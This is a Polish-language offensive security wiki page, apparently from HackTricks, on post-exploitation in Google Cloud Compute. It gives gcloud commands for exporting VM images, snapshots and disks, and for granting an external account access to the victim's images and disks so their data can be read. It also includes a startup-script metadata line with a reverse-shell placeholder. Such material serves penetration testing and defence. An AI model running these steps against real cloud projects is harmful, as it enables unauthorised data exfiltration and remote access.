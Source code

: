 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (Networking), sprawdź:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Eksportuj i sprawdź obrazy lokalnie

To pozwoliłoby atakującemu na **uzyskanie dostępu do danych zawartych w już istniejących obrazach** lub **utworzenie nowych obrazów działających VM** i uzyskanie dostępu do ich danych bez dostępu do działającej VM.

Możliwe jest wyeksportowanie obrazu VM do koszyka, a następnie pobranie go i zamontowanie lokalnie za pomocą polecenia:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Aby wykonać tę akcję, atakujący może potrzebować uprawnień do zasobnika pamięci masowej i na pewno **uprawnień do cloudbuild**, ponieważ to **usługa**, która zostanie poproszona o wykonanie eksportu.\
Ponadto, aby to zadziałało, SA codebuild i SA compute muszą mieć uprawnienia uprzywilejowane.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` potrzebuje:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` potrzebuje:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Eksportuj i sprawdź migawki i dyski lokalnie

Nie można bezpośrednio eksportować migawek i dysków, ale możliwe jest **przekształcenie migawki w dysk, dysku w obraz** i zgodnie z **poprzednią sekcją**, wyeksportowanie tego obrazu, aby go sprawdzić lokalnie.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspekcja obrazu tworząc VM

W celu uzyskania dostępu do **danych przechowywanych w obrazie** lub wewnątrz **działającego VM**, z którego atakujący **utworzył obraz,** możliwe jest przyznanie zewnętrznemu kontu dostępu do obrazu:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
a następnie utwórz nową VM z tego:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Jeśli nie mogłeś przyznać dostępu do swojego zewnętrznego konta przez obraz, mógłbyś uruchomić VM używając tego obrazu w projekcie ofiary i **sprawić, by metadane wykonały reverse shell** w celu uzyskania dostępu do obrazu, dodając parametr:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspekcja migawki/dysku poprzez podłączenie do VM

Celem uzyskania dostępu do **danych przechowywanych na dysku lub w migawce, możesz przekształcić migawkę w dysk, dysk w obraz i postępować zgodnie z wcześniejszymi krokami.**

Lub możesz **przyznać zewnętrznemu kontu dostęp** do dysku (jeśli punktem wyjścia jest migawka, przyznaj dostęp do migawki lub utwórz z niej dysk):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Dołącz dysk** do instancji:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Zamontuj dysk wewnątrz VM:

1.  **SSH do VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Zidentyfikuj Dysk**: Po wejściu do VM, zidentyfikuj nowy dysk, wypisując urządzenia dyskowe. Zazwyczaj można go znaleźć jako `/dev/sdb`, `/dev/sdc` itd.
3.  **Sformatuj i Zamontuj Dysk** (jeśli to nowy lub surowy dysk):

- Utwórz punkt montowania:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Zamontuj dysk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Jeśli **nie możesz przyznać dostępu do zewnętrznego projektu** do migawki lub dysku, być może będziesz musiał **wykonać te działania wewnątrz instancji w tym samym projekcie co migawka/dysk**.

{{#include ../../../banners/hacktricks-training.md}}
